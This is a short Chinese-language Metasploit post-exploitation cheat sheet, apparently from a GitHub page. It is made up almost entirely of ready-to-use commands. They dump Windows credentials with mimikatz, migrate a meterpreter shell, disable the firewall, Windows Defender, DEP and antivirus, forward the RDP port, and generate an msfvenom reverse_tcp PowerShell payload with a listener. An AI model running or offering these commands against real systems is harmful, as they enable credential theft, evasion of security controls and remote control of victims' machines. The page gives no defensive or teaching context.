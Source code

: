 ```bash
msf > use auxiliary/server/socks4a   设置socks4代理模块
msf auxiliary(socks4a) > show options 
msf auxiliary(socks4a) > run
配置proxychains参数：
nano /etc/proxychains.conf   修改代理监听端口,和前面端口一致
quite_mode  设置成安静模式：去掉如下参数前面的注释

```

### 获取windows密码

```shell
load mimikatz    #help mimikatz 查看帮助
wdigest  #获取Wdigest密码
mimikatz_command -f samdump::hashes  #执行mimikatz原始命令
mimikatz_command -f sekurlsa::searchPasswords
```



### 迁移meterpreter进程

```
找到一个相对稳定的应用记住他的pid ，然后将  meterpreter shell 的pid换成它的。

输入migrate 7240（将meterpreter shell的pid调到7240里相对稳定应用的进程里了，然后用getpid再次查看下是否更换成功）
```



### 关闭防火墙/杀毒软件

windows

```
netsh advfirewall set allprofiles state off#关闭防火墙
net stop windefend
netsh firewall set opmode mode=disable
bcdedit.exe /set{current} nx AlwaysOff#关闭DEP
meterpreter > run killav  关闭杀毒软件 
```





## porffwd

```shell
portfwd add -l 3344 -p 3389 -r 127.0.0.1
#将3344转发到3389
```

## 常用的payload

```
msfvenom  -p   windows/x64/meterpreter/reverse_tcp  lhost=192.168.1.123   lport=12345  -f  psh-reflection>/tmp/search.ps1
use exploit/multi/handler
```
